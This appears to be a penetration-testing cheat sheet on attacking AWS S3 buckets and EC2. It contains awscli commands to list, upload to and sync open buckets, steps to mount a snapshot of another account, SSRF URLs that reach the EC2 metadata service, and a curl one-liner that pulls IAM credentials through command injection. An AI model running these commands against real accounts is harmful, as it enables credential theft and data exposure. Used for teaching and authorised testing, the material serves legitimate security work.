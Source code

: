 # Amazon Bucket S3 AWS

## Summary

- [AWS Configuration](#aws-configuration)
- [Open Bucket](#open-bucket)
- [Basic tests](#basic-tests)
	- [Listing files](#listing-files)
	- [Move a file into the bucket](move-a-file-into-the-bucket)
	- [Download every things](#download-every-things)
	- [Check bucket disk size](#check-bucket-disk-size)
- [AWS - Extract Backup](#aws---extract-backup)
- [Bucket juicy data](#bucket-juicy-data)


## AWS Configuration

Prerequisites, at least you need awscli

```bash
sudo apt install awscli
```

You can get your credential here https://console.aws.amazon.com/iam/home?#/security_credential
but you need an aws account, free tier account : https://aws.amazon.com/s/dm/optimization/server-side-test/free-tier/free_np/

```javascript
aws configure
AWSAccessKeyId=[ENTER HERE YOUR KEY]
AWSSecretKey=[ENTER HERE YOUR KEY]
```

```javascript
aws configure --profile nameofprofile
```

then you can use *--profile nameofprofile* in the aws command.

Alternatively you can use environment variables instead of creating a profile.

```bash
export AWS_ACCESS_KEY_ID=ASIAZ[...]PODP56
export AWS_SECRET_ACCESS_KEY=fPk/Gya[...]4/j5bSuhDQ
export AWS_SESSION_TOKEN=FQoGZXIvYXdzE[...]8aOK4QU=
```

## Open Bucket

By default the name of Amazon Bucket are like http://s3.amazonaws.com/[bucket_name]/, you can browse open buckets if you know their names

```bash
http://s3.amazonaws.com/[bucket_name]/
http://[bucket_name].s3.amazonaws.com/
http://flaws.cloud.s3.amazonaws.com/
https://buckets.grayhatwarfare.com/
```

Their names are also listed if the listing is enabled.

```xml
<ListBucketResult xmlns="http://s3.amazonaws.com/doc/2006-03-01/">
<Name>adobe-REDACTED-REDACTED-REDACTED</Name>
```

Alternatively you can extract the name of inside-site s3 bucket with `%C0`. (Trick from https://twitter.com/0xmdv/status/1065581916437585920)

```xml
http://example.com/resources/id%C0

eg: http://redacted/avatar/123%C0
```

## Basic tests

### Listing files

```bash
aws s3 ls s3://targetbucket --no-sign-request --region insert-region-here
aws s3 ls s3://flaws.cloud/ --no-sign-request --region us-west-2
```

You can get the region with a dig and nslookup

```bash
$ dig flaws.cloud
;; ANSWER SECTION:
flaws.cloud.    5    IN    A    52.218.192.11

$ nslookup 52.218.192.11
Non-authoritative answer:
11.192.218.52.in-addr.arpa name = s3-website-us-west-2.amazonaws.com.
```

### Move a file into the bucket

```bash
aws s3 cp local.txt s3://some-bucket/remote.txt --acl authenticated-read
aws s3 cp login.html s3://$bucketName --grants read=uri=http://acs.amazonaws.com/groups/global/AllUsers
```

```bash
aws s3 mv test.txt s3://hackerone.marketing
FAIL : "move failed: ./test.txt to s3://hackerone.marketing/test.txt A client error (AccessDenied) occurred when calling the PutObject operation: Access Denied."

aws s3 mv test.txt s3://hackerone.files
SUCCESS : "move: ./test.txt to s3://hackerone.files/test.txt"
```

### Download every things

```powershell
aws s3 sync s3://level3-9afd3927f195e10225021a578e6f78df.flaws.cloud/ . --no-sign-request --region us-west-2
```

### Check bucket disk size

Use `--no-sign` for un-authenticated check.

```powershell
aws s3 ls s3://<bucketname> --recursive  | grep -v -E "(Bucket: |Prefix: |LastWriteTime|^$|--)" | awk 'BEGIN {total=0}{total+=$3}END{print total/1024/1024" MB"}'
```

## AWS - Extract Backup

```powershell
$ aws --profile flaws sts get-caller-identity
"Account": "XXXX26262029",


$ aws --profile profile_name ec2 describe-snapshots
$ aws --profile flaws ec2 describe-snapshots --owner-id XXXX26262029 --region us-west-2
"SnapshotId": "snap-XXXX342abd1bdcb89",

Create a volume using snapshot
$ aws --profile swk ec2 create-volume --availability-zone us-west-2a --region us-west-2  --snapshot-id  snap-XXXX342abd1bdcb89
In Aws Console -> EC2 -> New Ubuntu
$ chmod 400 YOUR_KEY.pem
$ ssh -i YOUR_KEY.pem  ubuntu@ec2-XXX-XXX-XXX-XXX.us-east-2.compute.amazonaws.com

Mount the volume
$ lsblk
$ sudo file -s /dev/xvda1
$ sudo mount /dev/xvda1 /mnt
```

## Bucket juicy data

Amazon exposes an internal service every EC2 instance can query for instance metadata about the host. If you found an SSRF vulnerability that runs on EC2, try requesting :

```powershell
http://169.254.169.254/latest/meta-data/
http://169.254.169.254/latest/user-data/
http://169.254.169.254/latest/meta-data/iam/security-credentials/IAM_USER_ROLE_HERE will return the AccessKeyID, SecretAccessKey, and Token
http://169.254.169.254/latest/meta-data/iam/security-credentials/PhotonInstance
```

For example with a proxy : http://4d0cf09b9b2d761a7d87be99d17507bce8b86f3b.flaws.cloud/proxy/169.254.169.254/latest/meta-data/iam/security-credentials/flaws/

### Attacking IMDSv2

AWS have released a newer version of the instance metadata service, which uses a two-step process to help protect against SSRF.

If you have command injection, you can use the following to extract security credentials and possibly pivot further.

```bash
TOKEN=`curl -X PUT "http://169.254.169.254/latest/api/token" -H "X-aws-ec2-metadata-token-ttl-seconds: 21600"` \
&& curl -H "X-aws-ec2-metadata-token: $TOKEN" -v http://169.254.169.254/latest/meta-data/iam/security-credentials/IAM_USER_ROLE_HERE
```

## References

* [There's a Hole in 1,951 Amazon S3 Buckets - Mar 27, 2013 - Rapid7 willis](https://community.rapid7.com/community/infosec/blog/2013/03/27/1951-open-s3-buckets)
* [Bug Bounty Survey - AWS Basic test](https://web.archive.org/web/20180808181450/https://twitter.com/bugbsurveys/status/860102244171227136)
* [flaws.cloud Challenge based on AWS vulnerabilities - by Scott Piper of Summit Route](http://flaws.cloud/)
* [flaws2.cloud Challenge based on AWS vulnerabilities - by Scott Piper of Summit Route](http://flaws2.cloud)
* [Guardzilla video camera hardcoded AWS credential ~~- 0dayallday.org~~ - blackmarble.sh](https://blackmarble.sh/guardzilla-video-camera-hard-coded-aws-credentials/)
* [AWS PENETRATION TESTING PART 1. S3 BUCKETS - VirtueSecurity](https://www.virtuesecurity.com/aws-penetration-testing-part-1-s3-buckets/)
* [AWS PENETRATION TESTING PART 2. S3, IAM, EC2 - VirtueSecurity](https://www.virtuesecurity.com/aws-penetration-testing-part-2-s3-iam-ec2/)
* [A Technical Analysis of the Capital One Hack - CloudSploit - Aug 2 2019](https://blog.cloudsploit.com/a-technical-analysis-of-the-capital-one-hack-a9b43d7c8aea?gi=8bb65b77c2cf)
* [AWS IMDSv2 documentation](https://docs.aws.amazon.com/AWSEC2/latest/UserGuide/configuring-instance-metadata-service.html)
